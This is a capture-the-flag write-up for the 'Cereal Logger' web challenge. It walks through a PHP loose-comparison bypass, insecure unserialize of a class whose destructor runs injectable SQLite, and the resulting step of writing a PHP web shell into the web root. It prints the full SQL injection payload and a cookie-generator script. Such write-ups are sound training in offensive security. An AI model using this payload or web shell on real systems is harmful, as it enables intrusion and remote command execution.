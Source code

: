 ## Cereal Logger (Hard)

To be this challenge was the hardest out of all the web challenges. It required me read up quite a bit on php and sql injection.

As with most the website displays it's source code.
```
 <?php

  class insert_log
  {
      public $new_data = "Valid access logged!";
      public function __destruct()
      {
          $this->pdo = new SQLite3("/tmp/log.db");
          $this->pdo->exec("INSERT INTO log (message) VALUES ('".$this->new_data."');");
      }
  }

  if (isset($_COOKIE["247"]) && explode(".", $_COOKIE["247"])[1].rand(0, 247247247) == "0") {
      file_put_contents("/dev/null", unserialize(base64_decode(explode(".", $_COOKIE["247"])[0])));
  } else {
      echo highlight_file(__FILE__, true);
  }
```

The first part of this code is a class that only contains a destructor that executes an sql query that looks injectable but given that this class is never constructed this code looks unreachable.

Then there is this code that allows us to write to dev null if we satisfy a special  condition. 
```
 if (isset($_COOKIE["247"]) && explode(".", $_COOKIE["247"])[1].rand(0, 247247247) == "0")
 ```
 Luckily this is pretty easy as it involves the same loose comparison to zero as Compare the Pair. The output of the random function doesn't matter as we control what it's prefixed with. If we set the prefix to `0e` we once again have zero on the left side of the comparison which is obviously equal ro zero.

 At this point I had still no idea how to exploit the write to `/dev/null`, I wasn't familiar with `unserialize()` and initially assumed decodes some serialized data format into a string. When I looked up it's documentation I realized thats not true.
> unserialize() takes a single serialized variable and converts it back into a PHP value. 

> Warning: Do not pass untrusted user input to unserialize() regardless of the options value of allowed_classes. Unserialization can result in code being loaded and executed due to object instantiation and autoloading, and a malicious user may be able to exploit this. Use

Some more googling revealed that we can actually pass the serialized version of class instance. So what if we pass an instance of `insert_log`?. The result goes out scope almost immediately so `__destruct()` is going to be called and given that we control the creation of the instance we also control the `new_data` attribute. With that we can do sql injection but the problem is we don't actually get the result of the query.
With much googling I found this payload that gets PHP code execution using an SQLite database. (Thanks to PHP trying to make sense of php inside a database file. yeah...)
```
'); ATTACH DATABASE '/var/www/html/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('<?php echo \"<pre>\"; system(\$_GET[\"cmd\"]);?>');--
```

Putting this together leaves this PHP code generate the cookie.
```
<?php

class insert_log
  {
      public $new_data;
      function __construct($data) {
        $this->new_data = $data;
    }
  }
$injection = "'); ATTACH DATABASE '/var/www/html/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('<?php echo \"<pre>\"; system(\$_GET[\"cmd\"]);?>');-- -";
$obj = new insert_log($injection);
echo base64_encode(serialize($obj).".0e");
echo "\n";
```
Visiting the challenge page with cookie generated by this codes creates `lol.php`.  The flag was than extracted by `cat`'ing `/tmp/log.db`